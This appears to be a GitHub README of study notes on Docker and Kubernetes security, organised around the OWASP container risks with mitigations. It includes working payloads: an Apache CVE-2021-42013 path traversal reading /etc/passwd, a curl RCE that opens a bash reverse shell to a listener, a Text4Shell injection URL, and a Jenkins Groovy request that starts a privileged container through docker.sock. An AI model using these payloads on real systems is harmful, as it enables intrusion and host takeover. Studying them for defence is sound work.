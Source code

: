 # Container-Security (Docker & Kubernetes)
## Docker: OWASP Top 10
<details> 
<summary> 1: Host OS Vulnerabilities </summary>
  
- If Host OS have vulnerabilities, attacker can use it to gain access to containers and apps running inside them.
- Resolution: Regular patching of host OS, Usage of IDS, Firewall, Implement strict access controls

#### CVE-2021-42013 (Path Traversal + RCE + Reverse Shell Attack)
- An attacker could use a path traversal attack to map URLs to files outside the directories. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these pathes, this could allow for remote code execution.
- This issue affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.
- Path Traversal payload - ``` http://172.17.0.2:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd ```
- Actual payload After double URL decode - ``` http://172.17.0.2:80/cgi-bin/../../../../../../../etc/passwd ```
- Netcat listening on ``` $ nc -lvnp 4444  ```
- RCE Payload: ``` $ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" "http://172.17.0.3:80/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/bash" ```
- References: https://github.com/twseptian/cve-2021-42013-docker-lab
</details>

<details> 
<summary> 2: Insecure Container Images </summary>
  
- By compromising the insecure container images, attacker can gain access to applications. 
- Resolution: Implementation of Image Scannings (To identify vulnerabilities) and Signature Validations (to ensure Images are Trusted)
- Best practises: Use minimal base images that conbtain only necessary libraries

#### CVE-2022-42889 (Command Injection)
- The vulnerability exists in the StringSubstitutor interpolator object. An interpolator is created by the StringSubstitutor.createInterpolator() method and will allow for string lookups as defined in the StringLookupFactory. This can be used by passing a string “${prefix:name}” where the prefix is the aforementioned lookup. Using the “script”, “dns”, or “url” lookups would allow a crafted string to execute arbitrary scripts when passed to the interpolator object.
- This issue affects Apache Commons Text versions 1.5 through 1.9.
- Cmd Injection URL Payload - ```https://your-target.com/exploit?search=%24%7Burl%3AUTF-8%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch+%2Ttmp%2Fhelloworld%27%29%7d ```
- Actual payload after decode - ```https://your-target.com/exploit?search=${script:javascript:java.lang.Runtime.getRuntime().exec('touch helloworld')} ```
- After successful execution a file helloworld will be created in app server.
- References: https://github.com/devenes/text4shell-cve-2022-42889
</details>

<details> 
<summary> 3: Insecure Container Configurations </summary>
  
- Misconfigurations may lead to disclose of sensitive date.
- Resolution: Implementation security measures like runtime security amd configuration management.
- Best practises: Implementation of Network segmentation, process isolation and orchestratrion (like kubernetes have default security measures)
- Best Practises: Add necessary access / remove unnecessary access like below examples:
drops capability to modify time -- ``` docker run --cap-drop=SYS_TIME -d my-image ```
Adds Network Bind Service -- ``` docker run --cap-add=NET_BIND_SERVICE -d my-image ```
- Conduct security assessments.
  
### Example: 
- We can set environment variables in Docker file. Setting credentails as Environment variables may disclose them.
</details>


<details> 
<summary> 4: Container Escape Vulnerabilities </summary>
  
- Breaking out from the container is known as "container escape". It allows an attacker to escape from a container to other container or underlying host and gain access to them.
- Option like --privileged may give access to all host systems. It is the same as executing a process with root privileges on the host machine.
``` docker run --privileged -it --name my-container my-image ```
- Resolution: Implementation security measures like runtime security and process isolation
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Best Practises: Keep containers updated.
- Conduct security assessments.

</details>

<details> 
<summary> 5: Inadequate Process Isolation </summary>
  
- Process running in different conmtainers may interact with each other. 
- This can lead to cross container compromise and data breaches.
- Resolution: Implementation process isolation through Namespace isolation (It Isolates Network, File system) and cgroups (Helps to limit resources that container can consume like CPU, memory, I/O)
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Use option --pid when starting the container. Process runnin gunder the pid cannot access process on host system. 
``` docker run --pid=container -d my-image ```
- Limit CPU usage when starting container.
``` docker run --cpu-share=512 --memory=512m --memory-swap=1g -d my-image ```  

### Cross Container Compromise with SYS_PTRACE capability
- SYS_PTRACE is a linux kernal process / capability which traces and debugs other process. It can reads / modifies memory, registry and extract sensitive data.
</details>

<details>
<summary> 6: Inadequate Network Segmentation
  
- Can lead to Data exfilteration and unauthorised access.
- Containers are their networks are not properly isolated from eachother.
- Resolution: Implementation of network segmentation will isolate containers from each other.
- Virtual networks will Isolates Network traffic, firewalls controls inbound and Outbound network traffic and security groups will limit network traffic.
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- Use option --network option ```docker run --network=my-network -d my-image```
</details>

<details>
<summary> 7: Inadequate Logging and Monitoring
  
- Logging helps in detecting and resposding to attacks.
- All important events in containers need to be logged.
- Resolution: Collect logs from host system, Conatinerns and orchestration platform.
- Best practises: Use SIEM tools to detect and respond in real-time.
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
</details>

<details>
<summary> 8: Insecure Data Storage in Containers 
  
- May lead to data breaches. Sensitive data maynot be properly secured.
- Resolution: Encrypt sensitive data, use secure storage options like NAS (Network attached Storage) or SAN (Styorage area networks)
- Best practises: Use access controls like RBAC (role-based access control).
- Best practises: Implementation of orchestratrion (like kubernetes have default security measures)
- use option -v , while starting a container, to mount a host directory as a data volume inside a container.
``` docker run -v /data:/data -d my-image ```
- Even after container is deleted, mounted data will be secured in host system.
- Use NAS / SAN as data volume using --mount option. This allows more flexibility to specify the type of mount (like bind, read-only, consistency). 
``` docker run --mount type=bind, source=/data, target=/data -d my-image ```

</details>

### Mounting a Docker Socket (docker.sock)
- Mounting Docker socket will make docker daemon hosts's unix socker available inside the container.
- It allows container to interact with docker host and access docker api to run / manage containers.
- This is a security risk, as container will have full access to docker host. So it need to be done with trusted containers.
- Can use option -v / --mount in docker run command and specify path of docker socket in host and target path inside the container.
- It can start / stop containers, mnodify images, accessing hor file systems.
- If Attacker gain access to this container, he can use mounted docker socket to control docker deamon and take over host system.
- Best practise: Use a seperate container to manage docker deamon.

``` docker run -d -p 8080:8080 --rm -v /var/run/docker.scok:/var/run/docker.sock --name jenkins -t vuln-jenkins:latest ```

 ![image](https://github.com/Vamckis/Container-Security/assets/71128825/03976075-072a-4902-a561-179c2d394388)
 - Creating ngnix container with --privileged option
``` curl -k -4 -X POST "http://localhjost:8080//descriptorByName/org.jenkins.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d 'value=class abcd{abcd(){"docker run -P --rm --privileged --name ngnix".execute()}}' ``` </br>
![image](https://github.com/Vamckis/Container-Security/assets/71128825/a0f2868f-62da-462b-905a-d2d953111f4c)


### References:
- https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities
- https://github.com/ec-council-learning/OWASP-Top-10-for-Docker-Containers-and-Kubernetes-Security
